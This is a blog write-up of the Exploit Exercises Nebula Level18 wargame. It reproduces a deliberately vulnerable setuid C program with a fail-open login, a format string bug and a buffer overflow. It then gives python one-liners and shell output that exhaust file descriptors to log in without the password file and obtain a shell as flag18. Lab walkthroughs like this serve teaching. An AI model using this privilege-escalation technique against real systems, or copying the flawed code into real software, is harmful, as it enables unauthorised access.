 ```yaml
---
title: "Exploit Exercises Nebula Level18"
date: "2016-02-22"
slug: "exploit-exercises-nebula-level18"
Categories:
- Exploit Exercises
---
```


[Level18] provides us with this large snippet of code:

        #include <stdlib.h>
        #include <unistd.h>
        #include <string.h>
        #include <stdio.h>
        #include <sys/types.h>
        #include <fcntl.h>
        #include <getopt.h>

        struct {
          FILE *debugfile;
          int verbose;
          int loggedin;
        } globals;

        #define dprintf(...) if(globals.debugfile) \
          fprintf(globals.debugfile, __VA_ARGS__)
        #define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
          fprintf(globals.debugfile, __VA_ARGS__)

        #define PWFILE "/home/flag18/password"

        void login(char *pw)
        {
          FILE *fp;

          fp = fopen(PWFILE, "r");
          if(fp) {
              char file[64];

              if(fgets(file, sizeof(file) - 1, fp) == NULL) {
                  dprintf("Unable to read password file %s\n", PWFILE);
                  return;
              }
                        fclose(fp);
              if(strcmp(pw, file) != 0) return;
          }
          dprintf("logged in successfully (with%s password file)\n",
              fp == NULL ? "out" : "");

          globals.loggedin = 1;

        }

        void notsupported(char *what)
        {
          char *buffer = NULL;
          asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
          dprintf(what);
          free(buffer);
        }

        void setuser(char *user)
        {
          char msg[128];

          sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
          printf("%s\n", msg);

        }

        int main(int argc, char **argv, char **envp)
        {
          char c;

          while((c = getopt(argc, argv, "d:v")) != -1) {
              switch(c) {
                  case 'd':
                      globals.debugfile = fopen(optarg, "w+");
                      if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
                      setvbuf(globals.debugfile, NULL, _IONBF, 0);
                      break;
                  case 'v':
                      globals.verbose++;
                      break;
              }
          }

          dprintf("Starting up. Verbose level = %d\n", globals.verbose);

          setresgid(getegid(), getegid(), getegid());
          setresuid(geteuid(), geteuid(), geteuid());

          while(1) {
              char line[256];
              char *p, *q;

              q = fgets(line, sizeof(line)-1, stdin);
              if(q == NULL) break;
              p = strchr(line, '\n'); if(p) *p = 0;
              p = strchr(line, '\r'); if(p) *p = 0;

              dvprintf(2, "got [%s] as input\n", line);

              if(strncmp(line, "login", 5) == 0) {
                  dvprintf(3, "attempting to login\n");
                  login(line + 6);
              } else if(strncmp(line, "logout", 6) == 0) {
                  globals.loggedin = 0;
              } else if(strncmp(line, "shell", 5) == 0) {
                  dvprintf(3, "attempting to start shell\n");
                  if(globals.loggedin) {
                      execve("/bin/sh", argv, envp);
                      err(1, "unable to execve");
                  }
                  dprintf("Permission denied\n");
              } else if(strncmp(line, "logout", 4) == 0) {
                  globals.loggedin = 0;
              } else if(strncmp(line, "closelog", 8) == 0) {
                  if(globals.debugfile) fclose(globals.debugfile);
                  globals.debugfile = NULL;
              } else if(strncmp(line, "site exec", 9) == 0) {
                  notsupported(line + 10);
              } else if(strncmp(line, "setuser", 7) == 0) {
                  setuser(line + 8);
              }
          }

          return 0;
        }

It also provides us with these directions:

"Analyze the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it."

<!--more-->

I will start off by admitting that I definitely took the easy way of solving this level. Maybe after more practice I will come back and attempt the intermediate and difficult/unreliable ways.

After taking the time to dissect the code, I noticed an interesting detail: if the program cannot read the password file, it will log us in anyway. Let's look at that file:

        level18@nebula:/home/flag18$ ls -l
        total 13
        -rwsr-x--- 1 flag18 level18 12216 2011-11-20 21:22 flag18
        -rw------- 1 flag18 flag18     37 2011-11-20 21:22 password

No simple ways to move or modify it with those permissions set, so it must be something else. It reminded me of an interesting error I encountered with one of my logging servers.

        "Too many open files(24)"

If we can hit that limit before the program attempts to access the password file, it won't be able to allocate a file descriptor. Let's check what the limit is with *ulimit*:

        level18@nebula:~$ ulimit -n
        1024

1024 is the open file limit, but remember that we need to spare 3 to stdin, stdout and stderr. You can modify the limit with <code>ulimit -n 4</code>, but it did not work for me. I wrote a small loop instead:

        level18@nebula:~$ python -c 'print("login foo\n"*1021)' > /home/level18/foo
        level18@nebula:~$ python -c 'print("closelog")' >> foo
        level18@nebula:~$ python -c 'print("shell")' >> foo

With all the input generated, I just need to pipe it to the flag18 program.

        level18@nebula:/home/flag18$ cat /home/level18/foo | ./flag18 -d /dev/tty
        Starting up. Verbose level = 0
        logged in successfully (without password file)
        ./flag18: -d: invalid option

Hm, that error is being thrown because *sh* does not have a <code>-d</code> flag. Adding a bogus init-file did the trick:

        level18@nebula:/home/flag18$ cat /home/level18/foo | ./flag18 --init-file /bogus -d /dev/tty
        ./flag18: invalid option -- '-'
        ./flag18: invalid option -- 'i'
        ./flag18: invalid option -- 'n'
        ./flag18: invalid option -- 'i'
        ./flag18: invalid option -- 't'
        ./flag18: invalid option -- '-'
        ./flag18: invalid option -- 'f'
        ./flag18: invalid option -- 'i'
        ./flag18: invalid option -- 'l'
        ./flag18: invalid option -- 'e'
        Starting up. Verbose level = 0
        logged in successfully (without password file)
        id
        uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
        getflag
        You have successfully executed getflag on a target account

It worked, on to the final level!

[Mike][]

[Level18]: https://exploit-exercises.com/nebula/level18/ "Level18"
[Mike]: /contact "Contact Mike"
